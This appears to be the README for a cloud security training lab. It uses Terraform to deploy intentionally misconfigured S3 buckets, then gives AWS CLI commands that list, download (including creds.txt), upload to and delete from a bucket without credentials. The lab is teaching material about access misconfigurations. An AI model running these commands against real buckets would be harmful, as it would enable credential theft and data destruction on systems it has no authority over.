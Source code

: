# S3 Unauthenticated Bucket Access

# In the bustling corridors of Cloud Innovators, a cutting-edge tech organization, two interns named Alice and Bob joined the ranks. Eager to prove themselves, they were tasked with deploying S3 buckets to store important company files. Little did they know that their actions would set the stage for a cloud security saga. Alice created the bucket MisconfiguredBucket and Bob misconfiguredacl bucket

# Now that you've journeyed through the gripping story of Cloud Innovators, it's time for you, to immerse yourself as an attacker and how to act as defense in such scenarios in hands-on learning.

* Explore Misconfigurations in "MisconfiguredBucket":

Enter the realm of the misconfigured S3 bucket, "alice-misconfiguredbucket," where an attacker gained unauthorized access. Dive into the hands-on lab and discover how misconfigurations can lead to CRUD operations on sensitive files. Learn to secure your buckets against potential threats.

* Unravel the Mystery of "misconfiguredacl":

Venture into the kingdom of "misconfiguredacl," where Authenticated Users gained unintended FULL_CONTROL permissions. Engage in the lab to unravel the mystery, understand ACL misconfigurations, and fortify your buckets against unauthorized access.


## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/cracoon-S3-lab1.git
```
* Step 2: Change Directory

```bash
cd cracoon-S3-lab1/
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name created by Alice 

```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket --no-sign-request
```
* Step 7: Now lets perform all the possible attack scenarios

* Step 8: Lets first download the fishy files - to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt . --no-sign-request 

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request 
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request 
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 
